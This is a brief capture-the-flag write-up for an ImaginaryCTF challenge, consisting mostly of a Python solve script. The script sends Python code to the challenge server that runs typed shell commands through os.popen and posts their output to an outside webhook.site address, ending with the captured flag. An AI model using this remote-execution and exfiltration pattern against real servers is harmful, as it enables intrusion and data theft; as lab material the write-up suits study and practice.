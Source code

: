 ```yaml
---
created: 2024-07-19T16:06
updated: 2024-07-21T16:11
points: 100
solves: 247
---
```


We are sending code to the server... and the server is running it.

Easiest ever RCE?

```python
import requests

while True:
    payload=f"""
from urllib.request import urlopen, Request
import os
httprequest = Request('	https://webhook.site/17555b78-6164-4e3c-891e-1fe96c3036ca/',data=os.popen('{input("$ ").strip()}').read().encode(),method='POST')
urlopen(httprequest)""".strip()
    requests.post("http://p2c.chal.imaginaryctf.org/", data={"code": payload})
    
# $ ls
# $ cat flag.txt
# ictf{d1_color_picker_fr_2ce0dd3d}
```

